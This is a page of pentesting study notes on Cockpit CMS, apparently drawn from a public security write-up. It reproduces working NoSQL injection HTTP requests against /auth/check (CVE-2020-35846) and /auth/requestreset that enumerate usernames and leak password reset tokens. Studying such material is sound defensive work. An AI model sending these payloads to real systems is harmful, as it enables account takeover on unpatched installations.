

repository: amandaguglieri/hackinglife · page: pentesting-cockpit/index.html · generator: mkdocs




## Default credentials


## Vulnerability 

Source: https://swarm.ptsecurity.com/rce-cockpit-cms/




### Extracting password reset tokens

Cockpit, like many other web applications, allows resetting account passwords.  
We discovered two methods that are vulnerable to NoSQL injection and allow obtaining the password reset token for any user.

#### NoSQL injection in /auth/check (CVE-2020-35846)

Using the `$eq` operator

> The `$eq` operator matches documents where the value of a field equals the specified value.

For example, you can use it to bruteforce names with a dictionary.

The condition is met: a user with the name **admin** has been found

```
POST /auth/check HTTP/1.1
Host: 192.168.199.10:9090
Content-Type: application/json; charset=UTF-8
Content-Length: 49
Origin: http://192.168.199.10:9090

{"auth":{"user":{"$eq":"admin"},"password":[0]} }
```


The condition is NOT met: no user with the name **admini** has been found

```
POST /auth/check HTTP/1.1
Host: 192.168.199.10:9090
Content-Type: application/json; charset=UTF-8
Content-Length: 49
Origin: http://192.168.199.10:9090

{"auth":{"user":{"$eq":"admin1"},"password":[0]} }
```

#### NoSQL injection in /auth/requestreset

`[requestreset](https://github.com/agentejo/cockpit/blob/0.11.1/modules/Cockpit/Controller/Auth.php#L82)` method of the **Auth** controller responsible for creating the password reset token:

```
POST /auth/requestreset HTTP/1.1
Host: 192.168.199.10:9090
Content-Type: application/json; charset=UTF-8
Content-Length: 29
Origin: http://192.168.199.10:9090

{"user":{"$func":"var_dump"} }
```
